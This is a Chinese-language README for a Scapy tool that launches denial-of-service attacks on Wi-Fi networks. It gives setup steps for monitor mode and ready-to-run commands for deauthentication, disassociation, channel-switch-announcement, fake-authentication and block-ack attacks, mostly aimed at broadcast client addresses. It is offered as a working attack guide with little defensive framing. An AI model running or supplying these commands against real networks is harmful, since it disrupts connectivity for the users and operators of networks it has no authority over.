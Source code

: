 # scapy 802.11 dos攻击

## 前提条件
#### 你需要有一块无线网卡并可以置于monitor模式并切换到相应信道,假设interface是wlan0,ap位于信道1：
    iw dev wlan0 set type monitor (如果报错 先down掉: ip link set wlan0 down)
    
    iw dev wlan0 set channel 1 (如果之前down了网卡需要up起来：ip link set wlan up (如果rfkill报错 执行:rfkill unblock 0 (0是rfkill list 对应物理网卡的编号)))
   
#### 安装sacpy     
    pip3 install scapy
    
    
###  目前实现：
    deauthentication 解认证攻击 可以广播，不能攻击开启了管理帧保护的ap
    
    disassociation   解连接 可以广播，不能攻击开启了管理帧保护的ap
    
    csa(channel switch announcement) 信道切换攻击
    
    fake_auth 假认证攻击    
    
  
    

## example
#### deauthentication attack
    ./dos11.py deauth --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0
#### disassociation attack
    ./dos11.py disas  --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0
#### channel switch announcement
    ./dos11.py csa --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0 --switch-channel 1 --cap 65535
#### fake auth 
    ./dos11.py fake_auth --client-mac  FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0 --auth-algorithm 1 --interval 0
#### delete block ack (maybe not work)
    ./dos11.py delba --client-mac   FF:FF:FF:FF:FF:FF --ap-ssid wifi-ssid --ap-bssid 01:02:03:04:05:06 -i wlan0


    

    
    

    
 